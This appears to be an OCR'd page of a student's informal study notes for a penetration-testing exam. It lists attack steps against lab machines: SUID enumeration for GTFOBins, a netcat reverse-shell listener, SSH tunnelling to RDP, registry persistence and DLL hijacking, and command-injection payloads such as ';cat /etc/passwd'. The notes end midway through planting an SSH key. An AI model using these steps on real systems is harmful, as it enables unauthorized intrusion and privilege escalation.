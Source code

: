 · NOW YOURE ROOT! (this is as hard as it should be on the test)

· if you don't hae sudo: find / -type f -perm /4000 -ls 2>/dev/null, copy and paste into a word document and try them all in GTFO bins and see what you can do.

· now go into root --> cd root, ls -la --> chmod +x any executable you find of interest, try and take any files or cool things you see and cat them

· REMEMBER RSYSLOG --> key files, what it does, etc etc

· proxychains nc 192.168.28.179 9999

· run windows buffer overflow which runns reverse shell

· nc -lvnp 4444 --> get's you on box

WINDOWS MACHINE

· ssh Aaron@loclahost -p 1111 -L 2222:<#ip>:3389 (windows rdp connection)

· now on windows box (with gui): check out file directory, view --> click hidden items and file name extension

· now go to this pc --> user files --> dfault folders, etc, users, (light folder means hidden) now check lroth, documents, etc, just general enumeration

· go to run and runonce in regedits for persistence --> HKCU and HKLM --> this could show some additional commands of interest to us

· go to services --> properties --> description --> look for blank things --> right click --> etc etc

· if you are required to replace an exevutable, it will be shown to you and etc etc

o if not, you will have to do DLL hijack and use same steps as in challenges

· scheduled tasks

o can get a little wonky. can only see them for your current user

THINGS THAT WEREN'T ON DRY RUN

· robots.txt for http-enum. be sure to go to all those places even if they say disallow. Just check it all out

· cmdinjection o http://10.50.28.52/cmdinjection/

o ;whoami --> www-data

o ;ls -la /var/www/html

· ssh key

o ;whoami

o find user, then find their home directory --> ;cat /etc/passwd -> www-data❌33:33:www-data:/var/www:/bin/bash

o now you need to know if that home directory contais ssh ;ls -la /var/www

o make a .ssh directory mkdir /var/www/.ssh

o make an ssh key (rsa_id.pub etc etc) --> in your personal home directory ssh-keygen -t rsa then click enter a ton of times till back to normal comand prompt
